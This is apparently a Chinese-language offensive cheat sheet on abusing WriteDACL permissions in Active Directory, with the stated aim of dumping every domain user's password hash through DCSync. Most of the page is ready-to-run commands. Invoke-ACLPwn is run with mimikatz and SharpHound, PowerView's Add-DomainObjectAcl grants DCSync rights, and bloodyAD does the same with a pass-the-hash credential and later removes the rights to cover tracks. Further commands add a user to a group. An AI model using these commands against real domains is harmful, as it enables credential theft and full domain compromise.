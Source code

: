 	WriteDACL权限可以修改域对象的ACL，最终实现利用DCSync导出域内所有用户hash
	Invoke-ACLPwn是一个自动发现和 pwnage Active Directory 中配置不安全的 ACL 的工具
	https://github.com/fox-it/Invoke-ACLPwn
	>./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'user1' -Domain 'domain.local' -Password 'Welcome01!'
  #### 域上的 WriteDACL
	Windows 上
	将 DCSync 权限授予主体身份
	>Import-Module .\PowerView.ps1
	>$SecPassword = ConvertTo-SecureString 'user1pwd' -AsPlainText -Force
	>$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\user1', $SecPassword)
	>Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
	Linux 上
	将 DCSync 权限授予主体身份
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B addDomainSync user2
	DCSync后移除权限
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B delDomainSync user2
  #### 组上的 WriteDACL
	>Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
	>net group "INTERESTING_GROUP" User1 /add /domain